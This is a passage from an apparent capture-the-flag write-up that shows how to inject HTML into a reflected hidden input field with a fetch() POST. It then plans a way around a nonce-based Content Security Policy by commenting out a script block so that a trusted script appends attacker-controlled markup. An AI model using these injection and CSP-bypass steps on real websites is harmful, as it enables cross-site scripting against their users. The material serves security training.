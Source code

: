 The server just sets the `value` of the `input` in the response `HTML` so maybe we can use
that to inject some code.

Let's try setting `bg` to `"><h1>test</h1><input value="`:

```javascript
fetch(window.location.href, {
        headers: {'Content-type': 'application/x-www-form-urlencoded'},
        method: "POST",
        credentials: "include",
        body: 'bg="><h1>test</h1><input value="'
    }).then(() => location.reload())
```

It looks like the server just places the value in the `HTML`:

```html
<input type="hidden" id="bg" value=""><h1>test</h1><input value="">
```

This means we can inject arbitrary `HTML` and even `script` tags into the page!

But we again have a problem with the `Content Security Policy`.
Remember the browser will only execute scripts with the correct `nonce`
or scripts that were created by other scripts with the `nonce`.

Since we probably can't guess the `nonce`, we have to get one of the scripts
already on the page to add our script.

Conveniently, `background.js` actually adds `HTML` elements to the page:

```javascript
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});
```

We even control the key into the `backgrounds` map but we don't control its content.

However we can change that:
If we start a comment in the `bg` value (e.g. set it to `"><!--`) we can comment out the definition of `backgrounds`:

```html
<input type="hidden" id="bg" value=""><!--">

<script nonce="6e6EPI+BzQX7F46q8bCU05Pajtg=">
    var backgrounds = {
        'red': ['<img class="bg-img" src="/static/img/red.png"></img>'],
        'green': ['<img class="bg-img" src="/static/img/green.png"></img>'],
        'tree': ['<img class="bg-img" src="/static/img/tree.png"></img>']
    }
</script>

...

<!--  
    What is CORS? Baby don't hurt me, don't hurt me - no more! 
-->
<br>
<b>CSCG{XSS_THE_ADMIN_FOR_THE_REAL_FLAG:>}</b>

<!-- ... -->

<script nonce="6e6EPI+BzQX7F46q8bCU05Pajtg=" src="/static/js/jquery-3.2.1.min.js"></script>
<script nonce="6e6EPI+BzQX7F46q8bCU05Pajtg=" src="/static/js/bootstrap.bundle.min.js"></script>
<script nonce="6e6EPI+BzQX7F46q8bCU05Pajtg=" src="/static/js/background.js"></script>
```
